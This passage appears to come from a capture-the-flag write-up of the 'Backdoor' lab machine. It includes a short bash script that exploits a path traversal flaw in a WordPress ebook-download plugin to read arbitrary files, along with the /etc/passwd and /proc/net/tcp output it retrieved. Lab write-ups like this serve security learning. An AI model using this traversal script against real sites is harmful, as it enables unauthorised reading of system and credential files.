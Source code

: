 ```
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

Looks like the only two users with shell access are `root` and `user`.

While looking around the system, I figured I'd create a script (which I called `file_load.sh`) to make things easier:
```bash
#! /bin/bash

BASE="http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../.."
FILE=$1

URL=$BASE
URL+=$FILE

curl -s $URL
```

After making the file executable (with `chmod +x file_load.sh`), all you have to do is run `./file_load.sh <filename>` and you get back the file.

This took a lot of digging around, but the files that ended up being the most useful were `/proc/net/tcp` and `/proc/sched_debug` . Here are some links ([1](https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html), [2](https://www.tecmint.com/exploring-proc-file-system-in-linux/)) that go deeper into the `/proc` filesystem and what all these files do.

`/proc/net/tcp`:
```
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:8124 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 36243 1 0000000000000000 100 0 0 10 0                     
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 36245 1 0000000000000000 100 0 0 10 0                     
   2: 00000000:15B3 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 647405 1 0000000000000000 100 0 0 10 0                    
   3: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 32267 1 0000000000000000 100 0 0 10 0                     
   4: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 33602 1 0000000000000000 100 0 0 10 0                     
   5: 7D0B0A0A:E02C 01010101:0035 02 00000001:00000000 01:00000149 00000002   101        0 647404 2 0000000000000000 400 0 0 1 7                     
   6: 7D0B0A0A:B5E2 1B100A0A:01BB 01 00000000:00000000 00:00000000 00000000  1000        0 627543 1 0000000000000000 38 4 26 10 -1                   
   7: 7D0B0A0A:8728 3F0E0A0A:115C 01 00000000:00000000 00:00000000 00000000  1000        0 515836 1 0000000000000000 24 4 31 10 10                   
   8: 7D0B0A0A:0539 1B100A0A:8888 01 00000000:00000000 02:0007E04E 00000000  1000        0 599419 2 0000000000000000 52 4 12 10 38   
```
